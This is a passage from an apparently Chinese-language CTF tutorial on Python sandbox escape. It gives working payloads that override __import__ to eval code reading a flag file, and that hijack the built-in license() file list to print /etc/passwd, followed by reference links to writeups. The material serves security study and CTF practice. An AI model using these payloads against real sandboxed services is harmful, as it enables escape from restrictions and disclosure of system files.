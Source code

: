 ```py
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```
这个 payload 将 `__import__` 函数进行覆盖, 最后的 {}[1337] 在正常情况下会引发 KeyError 异常，因为 Python 在引发异常时会尝试导入某些模块（比如traceback 模块），导入时就会触发 `__import__`.


#### 通过 license 函数读取文件

```py
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```
上面的 payload 修改内建函数 license 的文件名列表为 /etc/passwd 当调用 `license()` 时会打印这个文件的内容.
```py
>>> __builtins__.__dict__["license"]._Printer__filenames
['/usr/lib/python3.11/../LICENSE.txt', '/usr/lib/python3.11/../LICENSE', '/usr/lib/python3.11/LICENSE.txt', '/usr/lib/python3.11/LICENSE', './LICENSE.txt', './LICENSE']
```
payload 中将 help 类的 `__enter__` 方法覆盖为 `license` 方法, 而 with 语句在创建上下文时会调用 help 的`__enter__`, 从而执行 `license` 方法. 这里的 help 类只是一个载体, 替换为其他的支持上下文的类或者自定义一个类也是可以的. 例如:
```py
class MyContext:
    pass
    
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = MyContext()
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```

## 参考资料
- [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
- [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
- [python沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
- [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
- [[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
- [[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
- [audited2](https://ctftime.org/writeup/31883)
- [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
- [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
- [Python沙箱逃逸的n种姿势](https://ctftime.org/writeup/28286)
- [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)
